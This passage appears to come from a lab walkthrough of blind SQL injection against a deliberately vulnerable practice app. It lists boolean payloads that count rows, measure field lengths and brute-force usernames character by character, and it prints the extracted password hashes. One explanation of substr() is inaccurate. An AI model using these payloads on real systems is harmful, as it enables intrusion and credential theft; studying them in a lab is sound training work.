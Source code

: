 1' and (select count(password) from users)=5#

•	Get length of each record’s data (user: 5, 7, 4, 5, 6 and password: 32): 1' and length(substr((select user from users limit 1 offset 0),1))=5#
 
Use to check if the first "user" value in the "users" table has a length of 5 characters. This payload uses a subquery to select the first "user" value from the "users" table. The "substr()" function is used to retrieve the first character of the "user" value, and the "length()" function is used to determine the length of the resulting string. The length is then compared to the integer value 5. If the length is 5 it will say it already exists, if not it will say MISSING. And the record after that we do the same.

1' and length(substr((select user from users limit 1 offset 1),1))=7#

1' and length(substr((select user from users limit 1 offset 2),1))=4#

1' and length(substr((select user from users limit 1 offset 3),1))=5#

1' and length(substr((select user from users limit 1 offset 4),1))=6#

1' and length(substr((select password from users limit 1 offset 0),1))=32#

1' and length(substr((select password from users limit 1 offset 1),1))=32#

1' and length(substr((select password from users limit 1 offset 2),1))=32#

1' and length(substr((select password from users limit 1 offset 3),1))=32#
 
1' and length(substr((select password from users limit 1 offset 4),1))=32#

•	Bruteforcing each character of record’s data (
User: admin, gordonb, 1337, pablo, smithy 
Password: 5f4dcc3b5aa765d61d8327deb882cf99
e99a18c428cb38d5f260853678922e03
8d3533d75ae2c3966d7e0d4fcc69216b
0d107d09f5bbe40cade3de5c71e9e9b7
5f4dcc3b5aa765d61d8327deb882cf99): 1' and ascii(substr((select user from users limit 1 offset 0),1))=97#
 
Use to determine if the first character of the first user in the "users" table is the lowercase letter "a". This payload uses a subquery to select the first "user" value from the "users" table. The "substr()" function is used to retrieve the first character of the "user" value, and the "ascii()" function is used to get the ASCII value of that character. The ASCII value of the lowercase letter "a" is 97 it will say it already exists, if not it will say MISSING. And the characters after that we do the same.

1' and ascii(substr((select user from users limit 1 offset 0),2))=100#

1' and ascii(substr((select user from users limit 1 offset 0),3))=109#

1' and ascii(substr((select user from users limit 1 offset 0),4))=105#

1' and ascii(substr((select user from users limit 1 offset 0),5))=110#

Gordonb:

1' and ascii(substr((select user from users limit 1 offset 1),1))=103#

1' and ascii(substr((select user from users limit 1 offset 1),2))=111#

1' and ascii(substr((select user from users limit 1 offset 1),3))=114#
